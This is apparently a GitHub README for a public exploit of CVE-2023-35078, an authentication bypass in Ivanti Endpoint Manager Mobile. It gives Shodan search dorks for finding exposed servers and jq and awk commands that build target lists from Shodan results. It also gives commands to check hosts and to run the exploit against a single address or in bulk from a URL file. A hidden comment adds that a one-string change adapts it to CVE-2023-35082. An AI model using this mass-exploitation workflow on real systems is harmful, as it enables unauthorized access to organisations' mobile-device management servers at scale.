 # CVE-2023-35078
![](https://img.shields.io/static/v1?label=Product&message=MobileIron&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Ivanti%20Endpoint%20Manager%20Mobile%20through%2011.10&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%2010.0.%20Authentication%20Bypass&color=red)

Ivanti Endpoint Manager Mobile exploit <br/>

- Shodan dorks: <br/>
```
http.favicon.hash:362091310
```
```
http.favicon.hash:545827989
```
```
path=/mifs
```
Download the shodan json file and extract all IP addresses from it. You can do this with [shodan-parser](https://github.com/getdrive/POC/blob/main/2023/Ivanti%20Endpoint%20Manager%20Mobile%20(EPMM)/shodan-parser.py) or any other tool.

- Transform shodan json to _data_file_ <br/>
```
jq -cr 'select(.http.favicon.hash == 362091310) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
```
```
jq -cr 'select(.http.favicon.hash == 545827989) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
```
```
python3 shodan-parser.py -o temp_data_file shodan.json
```
```
awk '{print "https://"$0}' temp_data_file > data_file
```
- How to run a check. <br/>

   The format of the data_file should be as follows: **_http://ip_addr:port_** or **_https://ip_addr:port_** <br/> 
```
chmod +x check.sh; while read line; do ./check.sh $line; done < data_file
```
- Setup requirements <br/>
```
pip install -r requirements.txt
```
- Run exploit single address . <br/>
```
python exploit.py -u http://
```
- Run mass exploit . <br/>
```
python exploit.py -f urls.txt
```
<!-- Here is an Easter Egg for inquiring minds ;-)
 CVE-2023-35082: Just change "aad" to "asfV3" and the exploit works.-->
